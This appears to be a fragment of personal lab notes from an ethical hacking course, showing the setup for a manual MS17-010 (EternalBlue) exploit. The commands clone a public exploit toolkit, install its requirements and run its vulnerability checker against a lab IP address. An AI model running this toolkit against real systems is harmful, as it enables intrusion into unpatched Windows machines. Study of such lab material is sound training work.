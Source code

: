 ![](3-eth-hackassets/2024-07-13_23-49-55_610.png)

**Manual exploit**

```bash
cd ~/tcm/peh/blue/
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd ~/tcm/peh/blue/AutoBlue-MS17-010
pip install -r requirements.txt
cd shellcode

# Checker
python2 eternal_checker.py 192.168.31.132
```

![](3-eth-hackassets/2024-07-13_23-40-18_609.png)
